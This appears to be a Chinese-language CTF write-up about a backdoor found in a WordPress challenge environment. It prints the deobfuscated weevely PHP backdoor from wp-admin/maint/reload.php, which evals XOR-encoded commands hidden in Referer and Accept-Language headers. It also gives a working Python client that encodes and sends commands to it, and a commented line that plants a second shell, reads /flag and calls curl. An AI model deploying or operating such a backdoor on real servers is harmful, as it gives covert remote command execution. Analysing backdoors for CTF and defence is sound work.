




# Wordpress环境
把代码用webshellkiller扫描一遍看看



## 0x01 Poc1





## 0x02 Poc2 
www\wp-admin\maint\reload.php


我记得是weevely木马
[PHP混淆后门解剖分析（反抓流量、加密结果） - CSDN博客](https://blog.csdn.net/publicstr/article/details/80635752)
前往[UnPHP - The Online PHP Decoder](https://www.unphp.net/)解密

```php
<?php 
$kh = "d6a6";
$kf = "bc0d";
function x($t, $k) {
    $c = strlen($k);
    $l = strlen($t);
    $o = "";
    for ($i = 0;$i < $l;) {
        for ($j = 0;($j < $c && $i < $l);$j++, $i++) {
            $o.= $t{$i} ^ $k{$j};
        }
    }
    return $o;
}
$r = $_SERVER;
$rr = @$r["HTTP_REFERER"];
$ra = @$r["HTTP_ACCEPT_LANGUAGE"];
if ($rr && $ra) {
    $u = parse_url($rr);
    parse_str($u["query"], $q);
    $q = array_values($q);
    preg_match_all("/([\w])[\w-]+(?:;q=0.([\d]))?,?/", $ra, $m);
    if ($q && $m) {
        @session_start();
        $s = & $_SESSION;
        $ss = "substr";
        $sl = "strtolower";
        $i = $m[1][0] . $m[1][1];
        $h = $sl($ss(md5($i . $kh), 0, 3));
        $f = $sl($ss(md5($i . $kf), 0, 3));
        $p = "";
        for ($z = 1;$z < count($m[1]);$z++) $p.= $q[$m[2][$z]];
        if (strpos($p, $h) === 0) {
            $s[$i] = "";
            $p = $ss($p, 3);
        }
        if (array_key_exists($i, $s)) {
            $s[$i].= $p;
            $e = strpos($s[$i], $f);
            if ($e) {
                $k = $kh . $kf;
                ob_start();
                eval(@gzuncompress(@x(base64_decode(preg_replace(array("/_/", "/-/"), array("/", "+"), $ss($s[$i], 0, $e))), $k)));
                $o = ob_get_contents();
                ob_end_clean();
                $d = base64_encode(x(gzcompress($o), $k));
                print ("<$k>$d</$k>");
                @session_destroy();
            }
        }
    }
}
```

后来调试的脚本
```python
#!/usr/bin/env python
# encoding:utf-8

from random import randint,choice
from hashlib import md5

import urllib
import zlib
import base64
import requests
import re

def choicePart(seq,amount):
    length = len(seq)
    if length == 0 or length < amount:
        print 'Error Input'
        return None
    result = []
    indexes = []
    count = 0
    while count < amount:
        i = randint(0,length-1)
        if not i in indexes:
            indexes.append(i)
            result.append(seq[i])
            count += 1
            if count == amount:
                return result

def randBytesFlow(amount):
    result = ''
    for i in xrange(amount):
        result += chr(randint(0,255))
    return  result

def randAlpha(amount):
    result = ''
    for i in xrange(amount):
        result += choice(string.ascii_letters)
    return result

def loopXor(text,key):
    result = ''
    lenKey = len(key)
    lenTxt = len(text)
    iTxt = 0
    while iTxt < lenTxt:
        iKey = 0
        while iTxt<lenTxt and iKey<lenKey:
            result += chr(ord(key[iKey]) ^ ord(text[iTxt]))
            iTxt += 1
            iKey += 1
    return result


def debugPrint(msg):
    if debugging:
        print msg

# config
debugging = False
keyh = "d6a6" # $kh
keyf = "bc0d" # $kf


import string
import random

def random_string(length):
    return "".join([random.choice(string.letters) for i in range(length)])

def get_flag(host, port):

    xorKey = keyh + keyf

    path = "wp-admin/maint/reload.php"
    base_url = "http://%s:%d/" % (host, port)

    url = "%s%s"%(base_url, path)
    defaultLang = 'zh-CN'
    languages = ['zh-TW;q=0.%d','zh-HK;q=0.%d','en-US;q=0.%d','en;q=0.%d']
    proxies = None # {'http':'http://127.0.0.1:8080'} # proxy for debug

    sess = requests.Session()

# generate random Accept-Language only once each session
    langTmp = choicePart(languages,3)
    indexes = sorted(choicePart(range(1,10),3), reverse=True)

    acceptLang = [defaultLang]
    for i in xrange(3):
        acceptLang.append(langTmp[i] % (indexes[i],))
    acceptLangStr = ','.join(acceptLang)
    debugPrint(acceptLangStr)

    init2Char = acceptLang[0][0] + acceptLang[1][0] # $i
    md5head = (md5(init2Char + keyh).hexdigest())[0:3]
    md5tail = (md5(init2Char + keyf).hexdigest())[0:3] + randAlpha(randint(3,8))
    debugPrint('$i is %s' % (init2Char))
    debugPrint('md5 head: %s' % (md5head,))
    debugPrint('md5 tail: %s' % (md5tail,))


# Interactive php shell
    cmd = "system('id');"

    shell_path = "/www/.index.php"
    shell_url = "http://%s:%d//.index.php" % (host, port)
    #cmd = '@file_put_contents("%s", base64_decode("%s"));@readfile("/flag");system("curl --max-time 3 %s");' % (shell_path, content.encode("base64"), shell_url)
    query = []
    for i in xrange(max(indexes)+1+randint(0,2)):
        key = randAlpha(randint(3,6))
        value = base64.urlsafe_b64encode(randBytesFlow(randint(3,12)))
        query.append((key, value))
    debugPrint('Before insert payload:')
    debugPrint(query)
    debugPrint(urllib.urlencode(query))

    # encode payload
    payload = zlib.compress(cmd)
    payload = loopXor(payload,xorKey)
    payload = base64.urlsafe_b64encode(payload)
    payload = md5head + payload

    # cut payload, replace into referer
    cutIndex = randint(2,len(payload)-3)
    payloadPieces = (payload[0:cutIndex], payload[cutIndex:], md5tail)
    iPiece = 0
    for i in indexes:
        query[i] = (query[i][0],payloadPieces[iPiece])
        iPiece += 1
    referer = base_url + '?' + urllib.urlencode(query)
    debugPrint('After insert payload, referer is:')
    debugPrint(query)
    debugPrint(referer)

    headers = {
        'Connection': 'keep-alive',
        'Cache-Control': 'max-age=0',
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.139 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
        'DNT': '1',
        'Accept-Encoding': 'gzip, deflate, br',
        'Accept-Langding': 'gzip, deflate, br',
        'Accept-Language':acceptLangStr,
        'Referer':referer,
    }

    # send request
    r = sess.get(url,headers=headers,proxies=proxies)
    html = r.text
    debugPrint(html)

    # process response
    pattern = re.compile(r'<%s>(.*)</%s>' % (xorKey,xorKey))
    output = pattern.findall(html)
    if len(output) == 0:
        print 'Error,  no backdoor response'
        return ""
    output = output[0]
    debugPrint(output)
    output = output.decode('base64')
    output = loopXor(output,xorKey)
    output = zlib.decompress(output)
    print output
    return output


if __name__ == "__main__":
    get_flag("127.0.0.1", 80)

```




[漏洞引用](https://www.0dayhack.com/post-659.html)